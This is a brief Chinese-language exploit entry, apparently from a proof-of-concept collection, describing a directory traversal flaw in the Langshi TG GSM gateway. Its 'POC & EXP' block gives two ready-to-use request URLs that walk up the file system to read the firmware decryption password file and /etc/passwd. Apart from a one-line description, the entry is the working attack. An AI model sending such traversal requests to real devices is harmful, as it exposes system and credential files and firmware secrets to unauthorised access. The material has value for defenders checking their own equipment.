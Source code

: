 ### 描述
朗视 TG GSM ⽹关存在⽬录遍历漏洞

### POC & EXP
```
# 获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect

# 查看/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```
